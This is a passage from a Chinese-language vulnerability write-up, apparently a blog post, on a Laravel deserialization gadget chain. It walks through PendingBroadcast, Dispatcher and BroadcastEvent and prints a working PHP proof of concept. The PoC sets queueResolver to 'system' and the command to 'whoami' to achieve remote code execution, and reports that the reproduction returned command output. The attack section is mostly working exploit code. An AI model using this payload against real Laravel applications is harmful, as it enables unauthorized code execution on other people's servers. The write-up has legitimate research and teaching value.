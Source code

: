 trait定义了一个类，里面具有可控的$connection属性

那这样,`$command`只要是BroadCastEvent类的接口,那就是ShouldQueue类的接口,commandShouldBeQueued()函数的返回值就为真,那就可以进入if循环,所以`$command`类可以赋值为BroadCastEvent类,又因为BroadCastEvent类利用了Queueable,所以能够访问Queueable类中的`$connection`属性,从而控制$connection,实现rce

poc

```
<?php
namespace Illuminate\Broadcasting
{
    use  Illuminate\Bus\Dispatcher;
    class BroadcastEvent
    {
        public $connection;
        public function __construct()
        {
            $this->connection='whoami';
        }
    }
    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct()
        {
            $this->events = new Dispatcher();
            $this->event=new BroadcastEvent();
        }
    }
    echo urlencode(serialize(new PendingBroadcast()));
    
}


namespace Illuminate\Bus
{
    class Dispatcher
    {
       protected $queueResolver;
       public function __construct()
       {
            $this->queueResolver='system';
       }
    }
}
```

## 漏洞复现

这次又报错了,不过好在返回了命令执行结果
